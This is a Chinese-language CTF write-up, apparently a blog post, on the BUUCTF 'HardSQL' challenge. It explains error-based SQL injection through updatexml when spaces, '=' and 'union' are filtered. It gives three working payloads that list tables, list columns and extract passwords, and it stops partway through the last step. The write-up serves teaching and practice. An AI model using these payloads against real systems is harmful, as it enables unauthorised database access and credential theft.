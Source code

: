 ```yaml
---
title: BUUCTF_SQL注入类
date: 2022-02-04 22:52:49
updated: 2022-02-04 22:52:49
tags: [sql注入]
categories: BUUCTF
toc: true
---
```

BUUCTF中和SQL注入有关的题目



## 一、HardSQL

### 知识点：报错注入

tips：在发现空格，=号，union关键词被强屏蔽了后，可以尝试**报错注入**

绕过技巧可以看sql总结

这也是头一次尝试用报错注入解题

`0x7e`就是`~`,方便观看

直接上解题步骤：

### 1.爆表

```sql
?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database())))),1))%23
```

![](https://i.loli.net/2021/11/01/bq1U5zjRFNfoalv.png)

### 2.爆字段

```mysql
?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))),1))%23
```

![](https://i.loli.net/2021/11/01/V2wEyP9SUaZrmdh.png)

### 3.查看字符

```mysql
?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(password))from(`H4rDsq1`))),1))%23
```

发现只显示了一半：

![](https://i.loli.net/2021/11/01/lAjSBvyNmOtg2f5.png)
